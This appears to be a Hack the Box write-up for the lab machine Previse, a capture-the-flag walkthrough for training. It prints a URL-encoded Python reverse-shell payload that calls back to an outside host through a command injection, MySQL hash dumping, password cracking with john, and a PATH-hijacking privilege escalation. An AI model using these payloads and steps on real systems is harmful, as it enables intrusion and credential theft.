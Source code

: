 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
date = 2022-01-08T15:16:55Z
description = ""
draft = false
thumbnail = "/images/2021/08/previse.png"
slug = "hack-the-box-previse"
tags = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
title = "Hack the Box - Previse"

+++


Welcome back! Today's Hack the Box write-up is for the machine Previse. This machine is listed as an easy Linux machine. Let's get to it!

As usual, we start with a full `nmap` scan. Here are our results.

```
Nmap scan report for 10.10.11.104
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two ports available, so it looks like our path with be via web exploit of some type. So we'll load up `Burpsuite` and see what's being hosted on port 80.

We see that a basic username / password landing page. Before we start digging into the web requests, we'll try to enumerate any additional files or directories with `gobuster`. 

Command:
`gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

![](/images/2021/08/image-37.png)

We see a bunch of files. We check them all and find the `nav.php` has some interesting links.

![](/images/2021/08/image-38.png)

When trying to access all of these resources, we need an account. Luckily for us, we have a create account page! However, the page isn't accessable via the browser. When we view the `HTTP` request, we see that is actually something we can access.

![](/images/2021/08/image-39.png)

Given that we can see the source for this request, we know the parameters we need to `POST` in order to create an account.

![](/images/2021/08/image-40.png)

So we will craft the request we need to supply a `username`, `password` and `confirmation` password. We also need to be sure to add our `Content-Type` of `application/x-www-form-urlencoded`. All together, we have the following request.

![](/images/2021/08/image-41.png)

We send the request and we get back a success message!

![](/images/2021/08/image-42.png)

We can now log into the site. When we start looking around we find the file `SITEBACKUP.ZIP` in the files section. We download the file and unzip it to find exactly what we think, a backup of the site. We see in `config.php` a username and password.

![](/images/2021/08/image-43.png)

We still need a username to go with the password. Now, if we look around the site a bit more we have a Request Log Data section. If we download the file, we can see the users associated to logging in, this could give us a user to `SSH` with.

![](/images/2021/08/image-44.png)

Unable to login with those credentials. Now as we continue to sift through the files, we find a gem. A `Python exec()` call in the `logs.php` file.

![](/images/2021/08/image-45.png)

This is not a properly sanatized output, meaning we can leverage it to break things. More on [Command Injection here](https://portswigger.net/web-security/os-command-injection).

The key thing to remember here is that `Python` is calling the `exec()` function. So any injection we want to do, has to be in 'code'. More on that [here](https://www.stackhawk.com/blog/command-injection-python/).

We will use a `python` 'one-liner' to gain a remote shell. Take your pick from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). Just be to use URL encode the request!

Here's our request data being sent.

```
delim=comma;python3+-c+'a%3d__import__%3bs%3da("socket")%3bo%3da("os").dup2%3bp%3da("pty").spawn%3bc%3ds.socket(s.AF_INET,s.SOCK_STREAM)%3bc.connect(("10.10.14.99",4242))%3bf%3dc.fileno%3bo(f(),0)%3bo(f(),1)%3bo(f(),2)%3bp("/bin/bash")'
```
We sping up a `netcat` listener on port `4242`.

Command:
`nc -lvnp 4242`

Now ww send our request (a few times), and eventually get a response back on our `netcat` listener

![](/images/2021/08/image-46.png)

Before we start enumerating any further, we should check to see if we have `mysql` access. We have credentials from before that we should try to leverage and see what we have access to.

Command:
`mysql -u root -p'mySQL_p@ssw0rd!:)'`

![](/images/2021/08/image-47.png)

Sure enough, we have access! Now we can start sifting through the database.

Commands:
```
use previse;
show tables;
select * from accounts;
```

![](/images/2021/08/image-48.png)

Now we see our username and hashes. We'll copy them out to crack, we really just want `m4lwhere` in particular.

Command:
`echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > m4lwhere.hash`

Now we can run it against `rockyou.txt` to see what we might be able to find. In this case I'll use `john`.

Command:
`john -w=/usr/share/wordlists/rockyou.txt m4lwhere.hash --format=md5crypt-long`

![](/images/2021/08/image-49.png)

A few minutes later we get a match `ilovecody1122235!`. Now let's see if we can `SSH` with this password.

![](/images/2021/08/image-50.png)

Sure enough, we are in! Let's snag our `user.txt` flag and find a way to root! The next thing we check is `sudo -l`.

![](/images/2021/08/image-51.png)

It looks like we have the ability to run a backup script.

![](/images/2021/08/image-52.png)

The problem with this script is that its just saying `gzip`. It's not giving a specific path to `gzip`. This is `Path Hijacking` and it's the reason why you should ensure your paths are explicit and narrow as can be. What we'll do is create our own `gzip` file. This will just be a simple file to `cat` our the `root.txt` flag.

Step one - create a file in a temporary directory in `tmp`. We do it this way so that we don't ruin the box for others. 

Command:
`mkdir /tmp/rf`
`cd /tmp/rf`

Step two - create our 'malicous' `gzip` file.

Command:
`echo 'cat /root/root.txt > /tmp/rf/flag.txt' > gzip`
`chmod +x gzip`

Step three - we will add our temporary path to the enviornmental variables.

Command:
`export PATH=/tmp/rf:$PATH`

You can see that our temporary path has been pre-pended to our `PATH`. This means that the Linux Operating System will check this path before all others for any executable we are running. In this case, the evil `gzip` file.

Now we simply run our privledged script.

Command:
`sudo /opt/scripts/access_backup.sh`

![](/images/2021/08/previseroot.gif)

We get a text file with the `root.txt` flag inside! Feel free to send respect my way if you found this write-up helpful.

HTB Profile - https://app.hackthebox.eu/profile/95635



